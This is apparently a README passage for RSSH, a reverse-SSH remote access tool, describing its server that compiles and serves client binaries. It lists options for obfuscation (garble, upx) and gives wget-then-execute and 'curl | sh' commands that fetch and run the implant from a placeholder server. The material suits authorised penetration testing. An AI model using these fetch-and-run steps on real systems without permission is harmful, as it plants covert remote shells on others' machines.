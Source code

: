 ### Built in Agent Download Server

The RSSH server can also run an HTTP server on the same port as the RSSH server listener which serves client binaries.  The server must be placed in the project `bin/` folder, as it needs to find the client source.

```sh
./server --webserver :3232

# Generate an unnamed link
ssh your.rssh.server.com -p 3232

catcher$ link -h

link [OPTIONS]
Link will compile a client and serve the resulting binary on a link which is returned.
This requires the web server component has been enabled.
	-s	Set homeserver address, defaults to server --external_address if set, or server listen address if not.
	-l	List currently active download links
	-r	Remove download link
	-C	Comment to add as the public key (acts as the name)
	--goos	Set the target build operating system (default runtime GOOS)
	--goarch	Set the target build architecture (default runtime GOARCH)
	--goarm	Set the go arm variable (not set by default)
	--name	Set the link download url/filename (default random characters)
	--proxy	Set connect proxy address to bake it
	--tls	Use TLS as the underlying transport
	--ws	Use plain http websockets as the underlying transport
	--wss	Use TLS websockets as the underlying transport
	--shared-object	Generate shared object file
	--fingerprint	Set RSSH server fingerprint will default to server public key
	--garble	Use garble to obfuscate the binary (requires garble to be installed)
	--upx	Use upx to compress the final binary (requires upx to be installed)
	--no-lib-c	Compile client without glibc

# Build a client binary
catcher$ link --name test
http://your.rssh.server.com:3232/test

```

Then you can download it as follows:

```sh
wget http://your.rssh.server.com:3232/test
chmod +x test
./test
```

The RSSH server also supports `.sh`, and `.py` URL path endings which will generate a script you can pipe into an intepreter:
```sh
curl http://your.rssh.server.com:3232/test.sh | sh
```
